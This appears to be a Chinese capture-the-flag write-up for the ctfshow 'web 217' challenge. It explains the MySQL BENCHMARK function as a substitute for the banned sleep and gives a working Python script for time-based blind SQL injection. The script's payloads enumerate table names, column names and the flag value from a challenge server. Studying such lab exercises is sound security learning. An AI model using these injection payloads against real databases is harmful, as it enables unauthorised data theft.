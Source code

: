 ## web 217 benchmark

这题ban了`sleep`函数，在SQL中还提供了`benchmark`函数

::: tip
BENCHMARK 函数是 MySQL 中的一个用于性能测试的函数。它可以用来测量一个 SQL 语句或表达式的执行时间
:::

这个函数可以用来测试一个语句执行的时间

测试5,000,000次，时间大概0.7秒

![217](https://the0n3.top/medias/show-sql/217.png)

这个也挺好用，虽然没有sleep好用(痴呆，流口水.png)。太慢了(恼)，顺便买个饭去

```python
import requests
import time
url = 'http://0ca80f40-f50b-48d1-be46-a8badf78956d.challenge.ctf.show/api/'
str = ''
for i in range(60):
    min,max = 32, 128
    while True:
        j = min + (max-min)//2
        if(min == j):
            str += chr(j)
            print(str)
            break
        # 爆表名 ctfshow_flagxccb
        # payload = {
        #     'ip': f"'1111') or if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))<{j},benchmark(5000000,md5('1')),'False')#",
        #     'debug': 0
        # }
        # 爆列 flagaabc
        # payload = {
        #     'ip': f"'1111') or if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxccb'),{i},1))<{j},benchmark(5000000,md5('1')),'False')#",
        #     'debug': 0
        # }
        # 爆值 
        payload = {
            'ip': f"'1111') or if(ascii(substr((select group_concat(flagaabc) from ctfshow_flagxccb),{i},1))<{j},benchmark(5000000,md5('1')),'False')#",
            'debug': 0
        }
        start_time = time.time()
        r = requests.post(url=url, data=payload).text
        end_time = time.time()
        sub = end_time - start_time
        if sub >= 0.5:
            max = j
        else:
            min = j
```
